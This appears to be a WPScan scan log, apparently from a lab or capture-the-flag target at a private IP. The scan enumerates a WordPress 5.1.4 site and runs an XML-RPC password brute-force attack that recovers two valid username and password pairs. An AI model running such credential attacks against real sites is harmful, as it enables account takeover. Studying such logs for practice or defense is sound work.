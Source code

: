     [+] http://192.168.61.222/readme.html
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] Upload directory has listing enabled: http://192.168.61.222/wp-content/uploads/
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] http://192.168.61.222/wp-cron.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 60%
     | References:
     |  - https://www.iplocation.net/defend-wordpress-from-ddos
     |  - https://github.com/wpscanteam/wpscan/issues/1299
    
    [+] WordPress version 5.1.4 identified (Latest, released on 2019-12-12).
     | Found By: Emoji Settings (Passive Detection)
     |  - http://192.168.61.222/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.1.4'
     | Confirmed By: Meta Generator (Passive Detection)
     |  - http://192.168.61.222/, Match: 'WordPress 5.1.4'
    
    [i] The main theme could not be detected.
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:00 <=======================================================================================================> (21 / 21) 100.00% Time: 00:00:00
    [i] No Config Backups Found.
    
    [+] Performing password attack on Xmlrpc against 5 user/s
    [SUCCESS] - barney / spooky1
    [SUCCESS] - stephen / apollo1
    Trying peter / 120807 Time: 00:23:47 <                                                                                                    > (98765 / 43062497)  0.22%  ETA: ??:??:??^Cying admin / tacotaco Time: 00:49:54 <                                                                                                 > (202980 / 43062497)  0.47%  ETA: ??:??:??[i] Valid Combinations Found:
     | Username: barney, Password: spooky1
     | Username: stephen, Password: apollo1
    
    [!] No WPVulnDB API Token given, as a result vulnerability data has not been output.                                                     > (202985 / 43062497)  0.47%  ETA: ??:??:??[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
    